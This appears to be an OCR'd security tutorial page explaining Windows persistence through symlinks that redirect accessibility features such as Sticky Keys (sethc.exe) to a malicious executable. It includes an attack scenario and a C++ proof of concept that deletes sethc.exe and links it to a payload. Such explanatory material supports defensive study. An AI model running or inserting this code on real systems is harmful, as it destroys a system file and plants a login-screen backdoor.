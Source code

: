 ## **Create symlink(Accessibility)**

Creating symbolic links (symlinks) to replace or redirect Windows Accessibility features is another method attackers use for persistence. This approach is subtler than replacing binaries outright, as it involves creating a symlink that points from a legitimate system file or feature to a malicious file. When the system or a user tries to access the original file or feature, they are unknowingly redirected to the malicious file.

### **Understanding Create Symlink (Accessibility) Method**

Windows Accessibility features, like the Replace Binaries method, are often targeted due to their high level of trust and privileges within the system. However, instead of replacing the actual executable files, this method involves creating a symbolic link. A symlink is a type of file that contains a reference to another file or directory.

In this context, an attacker would create a symlink that points from a legitimate Accessibility feature executable (like sethc.exe for Sticky Keys) to a malicious executable. This method requires that the attacker has sufficient privileges to create symlinks in protected system directories.

### **Scenario of Create Symlink Attacks**

- Gain Initial Access: The attacker needs initial access to the system with privileges that allow creating symlinks in system directories.
- Identify Target Binary: The attacker chooses an Accessibility feature binary to target (e.g., sethc.exe).
- Create the Symlink: The attacker creates a symlink from the target binary to their malicious executable.
- Trigger the Malicious Binary: The malicious binary is executed when the Accessibility feature is invoked, typically from the login screen.

### **Sample Proof of Concept (PoC) Code in C++**

Below is a simplified example of how an attacker might create a symlink to redirect an Accessibility feature to a malicious executable. This is for educational purposes only.

```
#include <windows.h>

#include <iostream>

int main() {

    // Path to the legitimate binary (e.g., Sticky Keys)

    const char* legitBinaryPath = "C:\\Windows\\System32\\sethc.exe";

    // Path to the malicious binary

    const char* maliciousBinaryPath = "C:\\path\\to\\malicious.exe";

    // Delete the original file (requires administrative privileges)

    DeleteFile(legitBinaryPath);

    // Create the symbolic link

    if (!CreateSymbolicLink(legitBinaryPath, maliciousBinaryPath, 0)) {

        std::cerr << "Error creating symlink: " << GetLastError() << std::endl;

        return 1;

    }

    std::cout << "Symlink created successfully." << std::endl;
```